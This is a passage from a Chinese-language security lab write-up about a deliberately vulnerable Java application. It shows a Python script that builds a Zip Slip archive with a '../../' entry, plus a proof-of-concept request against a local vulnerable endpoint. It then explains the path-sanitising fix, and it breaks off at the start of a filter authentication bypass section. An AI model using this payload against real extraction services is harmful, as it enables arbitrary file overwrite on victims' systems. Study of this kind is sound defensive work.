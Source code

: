 ```java
        }
    }
}
```

首先用以下代码生成一个恶意的ZIP文件：

```python
import zipfile


def zip_slip_file(output_path):
    try:
        with open("test.txt", "r") as f:
            binary = f.read()
            with zipfile.ZipFile(output_path, "w", zipfile.ZIP_DEFLATED) as zipFile:
                zipFile.writestr("malicious_dir/../../test.txt", binary)
    except Exception as e:
        print(e)


if __name__ == '__main__':
    zip_slip_file(r'test.zip')
```

`/vuln`接口没有路径净化，允许目录遍历攻击，PoC如下：

```plain
http://127.0.0.1:8888/vulnapi/ZipSlip/vuln?zipFilePath=D:/workspace/PythonProject/test.zip&destination=D:/workspace/blogs
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758183706213-a13bf5c1-18e3-421b-bfaf-58f0e6168101.png)

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758183725957-569db09f-1125-44b6-b5d9-783104412633.png)

可以看到`test.txt`被解压后穿越出了本来的目的地`blogs`文件夹。

为了防止这类攻击，我们可以通过检查和净化路径来实现：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758184082820-cb8fdce9-1461-4647-a8f6-dbf8410b4a05.png)

这里在解压时，使用`Paths.get(entry.getName()).getFileName().toString()`来获取文件的安全名称，而不是直接使用ZIP文件中的路径。并使用`getCanonicalPath()`方法获取文件的绝对路径，并检查提取路径是否在指定的目标目录内。

访问`http://127.0.0.1:8888/vulnapi/ZipSlip/safe?zipFilePath=D:/workspace/PythonProject/test.zip&destination=D:/workspace/blogs`，发现`test.txt`被安全解压，没有发生目录穿越。

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758184244061-9cf3afc2-6fa8-48c5-a3e6-f35e29937da6.png)

# <font style="color:rgb(31, 35, 40);">Filter过滤器认证绕过漏洞（JavaVulHunter）</font>
点击“Filter鉴权绕过”，显示“Unauthorized access”：
